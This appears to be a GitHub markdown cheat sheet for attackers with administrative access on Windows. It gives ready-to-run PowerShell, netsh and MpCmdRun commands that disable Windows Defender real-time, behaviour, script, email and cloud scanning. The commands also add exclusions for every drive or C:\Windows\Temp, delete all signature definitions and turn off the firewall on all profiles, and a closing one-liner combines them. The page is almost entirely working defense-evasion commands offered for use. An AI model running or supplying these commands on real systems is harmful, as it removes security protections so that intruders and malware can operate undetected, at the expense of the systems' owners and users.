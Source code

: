 # AV and Firewall Disable

## Disable AV and Firewall with 2 commands

### Requirements: Administrative/System level access

#### 1) 

    Set-MpPreference -DisableRealtimeMonitoring $True

#### 2) 

    netsh advfirewall set allprofiles state off

OR

    Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

#### 3) 

    powershell  -c foreach ($disk in Get-WmiObject Win32_Logicaldisk){Add-MpPreference -ExclusionPath $disk.deviceid}

OR

    Add-MpPreference -ExclusionPath "C:\Windows\Temp"

# Disable Signature Checks from Defender (Won't kill the AV, but it will not alert any activity because of signature disablement)

#### execute -o 

    cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

# AV Features disable

 Disables realtime monitoring

    Set-MpPreference -DisableRealtimeMonitoring $true

 Disables scanning for downloaded files or attachments

    Set-MpPreference -DisableIOAVProtection $true

 Disable behaviour monitoring

    Set-MPPreference -DisableBehaviourMonitoring $true

 Make exclusion for a certain folder

    Add-MpPreference -ExclusionPath "C:\Windows\Temp"

 Disables cloud detection

    Set-MPPreference -DisableBlockAtFirstSeen $true

 Disables scanning of .pst and other email formats

    Set-MPPreference -DisableEmailScanning $true

 Disables script scanning during malware scans

    Set-MPPReference -DisableScriptScanning $true

 Exclude files by extension

    Set-MpPreference -ExclusionExtension "ps1"

 Turn off everything and set exclusion to "C:\Windows\Temp"

    Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Windows\Temp"
